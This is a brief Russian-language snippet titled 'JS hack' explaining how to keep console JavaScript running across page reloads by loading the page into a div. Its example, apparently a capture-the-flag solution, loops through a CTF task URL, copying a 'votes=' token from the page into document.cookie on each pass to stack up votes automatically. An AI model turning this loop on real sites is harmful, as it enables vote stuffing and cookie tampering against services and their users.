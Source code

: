 title: JS hack

Бывает у нас иногда ситуации, когда нужно выполнить javascript на странице из консоли, обновить страницу и продолжить выполнять скрипт. Но вот незадача, при обновлении страницы скрипт останавливается. Решение этой проблемы следующее: страницу можно поместить в элемент, например, div и загружать обновленную страницу в него!
POW:
```js
for(i = 0; i < 1000; i++) {
    s = document.querySelector("div").textContent;
    s = s.substr(s.search("votes=\\d+:\\w+"));
    s = s.substr(0, s.search("\n"));
    console.log(s);
    document.cookie = s;
    s = await fetch("http://kslweb1.spb.ctf.su/second/level23/");
    document.querySelector("div").innerHTML = await s.text();
}
```
